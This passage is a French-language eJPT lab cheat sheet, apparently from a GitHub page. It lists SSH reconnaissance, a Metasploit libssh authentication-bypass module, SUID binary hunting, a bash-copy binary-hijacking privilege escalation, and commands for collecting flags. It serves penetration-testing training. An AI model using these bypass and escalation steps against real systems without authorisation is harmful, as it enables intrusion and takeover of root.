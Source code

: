 #### 2. Exploitation SSH → escalade (Target2 style)
```bash
# Reconnaissance SSH
nmap -p 22 -sV <target>

# Exploitation libssh
use exploit/linux/ssh/libssh_auth_bypass

# Une fois connecté: recherche de binaires SUID
find / -perm -4000 -type f 2>/dev/null | grep -v "/bin\|/usr/bin\|/sbin\|/usr/sbin"
```

#### 3. Analyse binaires SUID (Welcome binary style)
```bash
# Dans répertoire utilisateur
ls -la
strings welcome
# Exploitation par binary replacement
rm greetings && cp /bin/bash greetings && ./welcome
```

#### 4. Collecte de flags systématique
```bash
# Flags communs dans labs eJPT
cat /flag                        # Flag racine
cat /flag.txt                    # Variante .txt
ls -la /opt/apache/htdocs/       # Flags cachés web
cat /opt/apache/htdocs/.flag*    # Fichiers cachés
find /home -name "*flag*" -type f 2>/dev/null  # Flags utilisateurs
cat /root/flag*                  # Flags root (après escalade)
```

### Points d'attention labs eJPT (Mise à jour)
- **Shellshock exploitation** → Accès système immédiat via web
- **libssh_auth_bypass** → Bypass SSH sans credentials  
- **Binary hijacking SUID** → Technique très courante dans labs
- **Flags cachés** → Toujours vérifier fichiers commençant par '.'
- **Metasploit Meterpreter** → Plus stable que shells basiques
- **GTFOBins + Lab techniques** → Combinaison gagnante

### Commandes essentielles à retenir (Mise à jour labs)
```bash
# Reconnaissance immédiate
id && uname -a && sudo -l && ls -la

# SUID files (focus répertoire courant)
find / -perm -4000 2>/dev/null
find . -perm -4000 2>/dev/null

# Analyse binaire suspect
strings <binary> && file <binary>

# Binary hijacking rapide
cp /bin/bash <called_program> && ./<suid_binary>

# Recherche flags exhaustive
find / -name "*flag*" -o -name ".*flag*" 2>/dev/null
```
